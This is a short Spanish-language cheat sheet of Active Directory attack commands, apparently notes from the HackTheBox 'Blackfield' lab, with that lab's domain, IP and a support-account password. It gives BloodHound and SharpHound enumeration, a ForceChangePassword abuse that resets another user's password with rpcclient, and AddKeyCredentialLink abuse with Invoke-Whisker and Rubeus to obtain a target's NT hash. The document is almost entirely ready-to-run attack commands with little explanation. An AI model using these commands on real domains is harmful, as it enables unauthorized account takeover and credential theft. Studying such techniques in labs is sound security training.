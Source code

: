 # BloodHound

### Uso de BloodHound-python
```null
bloodhound-python -u support -p '#00^BlackKnight' -d blackfield.local -ns 10.10.10.192 -c All
```

### Inicialización Neo4j
```null
sudo neo4j console
bloodhound &>/dev/null & disown
```

### SharpHound Inyector
```null
PS C:\Temp> .\SharpHound.exe -c All
```

## Abuso de ForceChangePassword

### Modificación de contraseña por RPC
```null
rpcclient -U blackfield/support 10.10.10.192
rpcclient $> setuserinfo audit2020 23 H@CKTHEB0X#
```

## Abuso AddKeyCredentialLink 

### Uso de Invoke-Whisker (Obtención Hash NT)

```null
PS C:\Temp> Invoke-Whisker -Command "add /target:sflowers"
```

```null
.\Rubeus.exe asktgt /user:sflowers /certificate:<CERTIFICATE>
```

